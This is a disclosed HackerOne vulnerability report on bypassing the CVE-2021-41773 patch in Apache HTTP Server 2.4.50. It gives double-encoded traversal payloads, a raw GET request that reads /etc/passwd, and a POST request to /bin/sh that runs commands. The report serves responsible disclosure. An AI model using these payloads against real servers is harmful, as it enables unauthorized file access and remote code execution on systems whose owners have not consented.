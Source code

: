 # Path Traversal and Remote Code Execution in Apache HTTP Server 2.4.50

## Report Details
- **Report ID**: 1404731
- **URL**: https://hackerone.com/reports/1404731
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-11-18T21:56:01.550Z
- **Disclosed**: 2021-11-19T23:45:37.511Z

## Reporter
- **Username**: itsecurityco
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Hello Apache team,

@fms and myself were able to bypass the latest patch for CVE 2021-41773 in the Apache 2.4.50.

These are the payloads:

1) %%32%65%%32%65
2) .%%32%65
3) .%%32e
4) .%2%65

PoC Path Traversal

GET /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd HTTP/1.1
Host: localhost:83
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

PoC RCE

POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 192.168.88.201
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es;q=0.8
If-None-Match: "2aa6-5cda88e8a6005-gzip"
If-Modified-Since: Wed, 06 Oct 2021 05:38:33 GMT
Connection: close
Content-Length: 60

echo Content-Type: text/plain; echo; id; uname;apache2ctl -M

## Impact

An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives.

If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

## Attachments
- POC_RCE.png
- POC_Path_Traversal.png
